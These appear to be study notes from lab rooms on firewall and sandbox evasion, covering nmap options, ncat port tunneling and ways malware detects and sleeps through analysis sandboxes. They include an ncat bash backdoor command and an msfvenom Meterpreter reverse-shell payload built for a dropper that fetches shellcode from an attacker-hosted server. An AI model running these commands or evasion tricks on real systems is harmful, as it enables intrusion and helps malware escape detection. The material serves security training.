<span style="font-size: 23px;">**Set IP Options**</span>

One of the IP header fields is the IP Options field. Nmap lets you control the value set in the IP Options field using `--ip-options HEX_STRING`, where the hex string can specify the bytes you want to use to fill in the IP Options field. Each byte is written as `\xHH`, where `HH` represents two hexadecimal digits, i.e., one byte.

A shortcut provided by Nmap is using the letters to make your requests:

- `R` to record-route.
- `T` to record-timestamp.
- `U` to record-route and record-timestamp.
- `L` for loose source routing and needs to be followed by a list of IP addresses separated by space.
- `S` for strict source routing and needs to be followed by a list of IP addresses separated by space.
  
The loose and strict source routing can be helpful if you want to try to make your packets take a particular route to avoid a specific security system.

<span style="font-size: 23px;">**Use a Wrong Checksum**</span>

Another trick you can use is to send your packets with an intentionally wrong checksum. Some systems would drop a packet with a bad checksum, while others won’t. You can use this to your advantage to discover more about the systems in your network. All you need to do is add the option --badsum to your Nmap command.

```bash
nmap -sS -Pn --badsum -F 10.10.231.152
```
we scanned our target using intentionally incorrect TCP checksums. The target dropped all our packets and didn’t respond to any of them.

```bash
┌──(root㉿kali)-[~]
└─# nmap -sS -Pn --badsum -F 10.10.231.152
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-19 02:51 UTC
Nmap scan report for ip-10-10-231-152.eu-west-1.compute.internal (10.10.231.152)
Host is up (0.00074s latency).
All 100 scanned ports on ip-10-10-231-152.eu-west-1.compute.internal (10.10.231.152) are in ignored states.
Not shown: 100 filtered tcp ports (no-response)
MAC Address: 02:54:5F:82:94:F1 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.17 seconds
```
---

### Evasion Using Port Hopping

Three common firewall evasion techniques are:

- Port hopping
- Port tunneling
- Use of non-standard ports

<span style="font-size: 23px;">**Evasion Using Port Hopping**</span>

Port hopping is a technique where an application hops from one port to another till it can establish and maintain a connection. In other words, the application might try different ports till it can successfully establish a connection. Some “legitimate” applications use this technique to evade firewalls. In the following figure, the client kept trying different ports to reach the server till it discovered a destination port not blocked by the firewall.


There is another type of port hopping where the application establishes the connection on one port and starts transmitting some data; after a while, it establishes a new connection on (i.e., hopping to) a different port and resumes sending more data. The purpose is to make it more difficult for the blue team to detect and track all the exchanged traffic.

```bash
ncat -lvnp 1025
```

<span style="font-size: 23px;">**Evasion Using Port Tunneling**</span>

Port tunneling is also known as port forwarding and port mapping. In simple terms, this technique forwards the packets sent to one destination port to another destination port. For instance, packets sent to port 80 on one system are forwarded to port 8080 on another system.

**Port Tunneling Using `ncat`**

Consider the case where you have a server behind the firewall that you cannot access from the outside. However, you discovered that the firewall does not block specific port(s). You can use this knowledge to your advantage by tunneling the traffic via a different port.

Consider the following case. We have an SMTP server listening on port 25; however, we cannot connect to the SMTP server because the firewall blocks packets from the Internet sent to destination port 25. We discover that packets sent to destination port 443 are not blocked, so we decide to take advantage of this and send our packets to port 443, and after they pass through the firewall, we forward them to port 25. Let’s say that we can run a command of our choice on one of the systems behind the firewall. We can use that system to forward our packets to the SMTP server using the following command.

```bash
ncat -lvnp 443 -c "ncat TARGET_SERVER 25"
```
- `-c` or `--sh-exec` executes the given command via `/bin/sh`.
- `"ncat TARGET_SERVER 25"` will connect to the target server at port 25.

As a result, `ncat` will listen on port 443, but it will forward all packets to port 25 on the target server. Because in this case, the firewall is blocking port 25 and allowing port 443, port tunneling is an efficient way to evade the firewall.


<span style="font-size: 23px;">**Evasion Using Non-Standard Ports**</span>

*create a backdoor via the specified port number that lets you interact with the Bash shell.*
```bash
ncat -lvnp PORT_NUMBER -e /bin/bash
```
- `-e` or `--exec` executes the given command
- `/bin/bash` location of the command we want to execute

---

### Next-Generation Firewalls

Traditional firewalls, such as packet-filtering firewalls, expect a port number to dictate the protocol being used and identify the application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many applications camouflage themselves using ports assigned for other applications. In other words, a port number is no longer enough nor reliable to identify the application being used. Add to this the pervasive use of encryption, for example, via SSL/TLS.

Next-Generation Firewall (NGFW) is designed to handle the new challenges facing modern enterprises. For instance, some of NGFW capabilities include:

- Integrate a firewall and a real-time Intrusion Prevention System (IPS). It can stop any detected threat in real-time.
- Identify users and their traffic. It can enforce the security policy per-user or per-group basis.
- Identify the applications and protocols regardless of the port number being used.
- Identify the content being transmitted. It can enforce the security policy in case any violating content is detected.
- Ability to decrypt SSL/TLS and SSH traffic. For instance, it restricts evasive techniques built around encryption to transfer malicious files.

A properly configured and deployed NGFW renders many attacks useless.

## Sandbox Evasion

Lots of companies deploy a “Defense in Depth” strategy, which refers to implementing security in layers, so if one layer fails, there should be another one that an adversary must evade.

[Sandboxes](../common.md#sandbox) provide a safe way to analyze a potentially malicious file and observe the effects on the system and return if the executable is malicious or not.

### An Adversary walks into a Sandbox

<span style="font-size: 23px;">**What is Malware Analysis**</span>

Malware Analysis is the process of analyzing a suspicious file to determine what it does on both a micro level (by looking at Assembly), and a macro level (by looking at what it does on the system). This process lets Blue Teamers gain a better understanding of malicious programs, which can aid them in developing detections.

<span style="font-size: 23px;">**Static vs. Dynamic Analysis**</span>

There are two ways that a Blue Teamer can analyze a suspicious file; one way is by looking at the code on a micro-level (as previously stated) by using Disassemblers such as IDA or [Ghidra](../common.md#ghidra). This process is more well known as “[Static Analysis](../common.md#static-analysis)”.

On the flip side of the coin, we can observe what happens when the suspicious file is executed on the system through a process called “[Dynamic Analysis](../common.md#dynamic-analysis)”. On the system, there are often many analysis tools installed, such as [EDR](../common.md#edr) Software, [Sysmon](../common.md#sysmon), ProcMon, Process Hacker, and Debuggers (For example, OllyDebug, WinDbg, x64Dbg), and much more.

<span style="font-size: 23px;">**Introduction to Sandboxes**</span>

One of the most creative and effective ways that Blue Teamers have come up with to analyze suspicious-looking files is in the category of **Dynamic Analysis**. This method involves running the file in a containerized (or virtualized) environment; This environment is referred to as a Sandbox. Depending on the sandbox of choice, you may be able to customize what version of Windows is running, the software installed on the machine, and much more.

Sandboxes provide a safe and effective way to monitor what a suspicious-looking file does before running it on a production system (or allowing it to be sent to a production system). There are many commercial Sandboxes that may be in place in various parts of a network.



In the diagram above, there are three different sandboxes in place. It is not uncommon for there to be one, two, or even three Sandboxes in a corporate environment. Often you may find them in the following places:

- Firewalls
- Mail Servers
- Workstations

Each sandbox may work differently; for example, a Firewall may execute the attachment in the email and see what kind of network communications occur, whereas a Mail sandbox may open the email and see if an embedded file within the email triggers a download over a protocol like SMB in an attempt to steal a NetNTLM hash, where a host-based Anti-Virus Sandbox may execute the file and monitor for malicious programmatic behavior or changes to the system.

There are various vendors that make various Sandbox products that Blue Teamers may be able to deploy in a corporate network. Here are some popular examples:

- Palo Alto Wildfire ([Firewall](https://www.paloaltonetworks.co.uk/network-security/wildfire))
- Proofpoint TAP ([Email Sandbox](https://www.proofpoint.com/uk/products/advanced-threat-protection/targeted-attack-protection))
- Falcon Sandbox ([EDR/Workstation](https://www.crowdstrike.co.uk/products/threat-intelligence/falcon-sandbox-malware-analysis/))
- MimeCast ([Email Sandbox](https://www.mimecast.com/))
- VirusTotal ([Sample Submission Site](https://www.virustotal.com/))
- Any.Run ([Sample Submission Site](https://any.run/))
- Antiscan.me ([Sample Submission Site](https://antiscan.me/))
- Joe Sandbox ([Sample Submission Site](https://www.joesandbox.com/))

---

### Common Sandbox Evasion Techniques

<span style="font-size: 23px;">**An Introduction to Sandbox Evasion**</span>

We will be breaking this down into four different categories; 

- Sleeping through Sandboxes
- Geolocation and Geoblocking
- Checking System Information
- Querying Network Information

<span style="font-size: 23px;">**Sleeping through Sandboxes**</span>

Malware Sandboxes are often limited to a time constraint to prevent the overallocation of resources, which may increase the Sandboxes queue drastically. This is a crucial aspect that we can abuse; if we know that a Sandbox will only run for five minutes at any given time, we can implement a sleep timer that sleeps for five minutes before our shellcode is executed. This could be done in any number of ways; one common way is to query the current system time and, in a parallel thread, check and see how much time has elapsed. After the five minutes have passed, our program can begin normal execution.

Another popular method is to do complex, compute-heavy math, which may take a certain amount of time — for example, calculating the Fibonacci sequence up to a given number. Remember that it may take more or less time to do so based on the system's hardware. Masking your application is generally a good idea to avoid Anti-Virus detections in general, so this should already be something in your toolkit.

Beware that some sandboxes may alter built-in sleep functions; various Anti-Virus vendors have put out blog posts about bypassing built-in sleep functions. So it is highly recommended you develop your own sleep function. Here are a couple of blog posts about bypassing Sleep functions:

- https://evasions.checkpoint.com/src/Evasions/techniques/timing.html
- https://www.joesecurity.org/blog/660946897093663167

<span style="font-size: 23px;">**Geolocation**</span>

One defining factor of Sandboxes is that they are often located off-premise and are hosted by Anti-Virus providers. If you know you are attacking TryHackMe, a European company, and your binary is executed in California, you can make an educated guess that the binary has ended up in a Sandbox. You may choose to implement a geolocation filter on your program that checks if the IP Address block is owned by the company you are targeting or if it is from a residential address space. There are several services that you can use to check this information:

- [ifconfig.me](https://ifconfig.me/)
- https://rdap.arin.net/registry/ip/1.1.1.1

IfConfig.me can be used to retrieve your current IP Address, with additional information being optional. Combining this with ARIN's RDAP allows you to determine the ISP returned in an easy to parse format (JSON). 

It is important to note that this method will only work if the host has internet access. Some organizations may build a block list of specific domains, so you should be 100% sure that this method will work for the organization you are attempting to leverage this against.

<span style="font-size: 23px;">**Checking System Information**</span>

Another incredibly popular method is to observe system information. Most Sandboxes typically have reduced resources. A popular Malware Sandbox service, Any.Run, only allocates 1 CPU core and 4GB of RAM per virtual machine.

Most workstations in a network typically have 2-8 CPU cores, 8-32GB of RAM, and 256GB-1TB+ of drive space. This is incredibly dependent on the organization that you are targeting, but generally, you can expect more than 2 CPU cores per system and more than 4GB of RAM. Knowing this, we can tailor our code to query for basic system info (CPU core count, RAM amount, Disk size, etc).

By no means is this an exhaustive list, but here are some additional examples of things you may be able to filter on:

- Storage Medium Serial Number
- PC Hostname
- [BIOS](../common.md#bios)/[UEFI](../common.md#uefi) Version/Serial Number
- Windows Product Key/OS Version
- Network Adapter Information
- Virtualization Checks
- Current Signed in User
- and much more!

<span style="font-size: 23px;">**Querying Network Information**</span>

The last method is the most open-ended method that we will be covering. Because of its open-endedness it is considered one of the more advanced methods as it involves querying information about the Active Directory domain.

Almost no Malware Sandboxes are joined in a domain, so it's relatively safe to assume if the machine is not joined to a domain, it is not the right target! However, you cannot always be too sure, so you should collect some information about the domain to be safe. There are many objects that you can query; here are some to consider:

- Computers
- User accounts
- Last User Login(s)
- Groups
- Domain Admins
- Enterprise Admins
- Domain Controllers
- Service Accounts
- DNS Servers

These techniques can vary in difficulty; therefore, you should consider how much time and effort you want to spend building out these evasion methods. A simple method, such as checking the systems environment variables (this can be done with **echo %VARIABLE%** or to display all variables, use the **set** command) for an item like the LogonServer, LogonUserSid, or LogonDomain may be much easier than implementing a Windows API.

<span style="font-size: 23px;">**Setting the Stage**</span>

Now that you have a better understanding of what Sandbox Bypass method types exist, we will take it to the next step and implement some of the Sandbox Bypasses in the next task.

Before we move on to the next task, we're going to be starting with a basic dropper that retrieves shellcode from a Web Server (specifically from /index.raw) and injects it into memory, and executes the shellcode. It's important to note that all shellcode must be generated with MSFVenom in a raw format, and must be 64-bit, not 32-bit. It can be generated with the following command.

```bash
user@attack-box$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Saved as: index.raw
user@attack-box$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.212 - - [20/Mar/2022 22:04:22] "GET /index.raw HTTP/1.1" 200 -
```
The shellcode should then be hosted on the AttackBox via any HTTP Server. Python3's http.server module is highly portable and flexible and will serve as a good base for this task. In the real world, you may host your shellcode on your C2 server. For the purposes of the lab, we will be utilizing the Attackbox with no C2 server.

The code attached to this task has been tested and compiled using Visual Studio 2019 (or above). Download the dropper.cpp, and open it. It's important to note that there are several placeholder values on lines 16, 22, 24, 27, and 33 that you must update to make the code function properly. Once you have altered the values, compile the code for a 64-bit release.

---
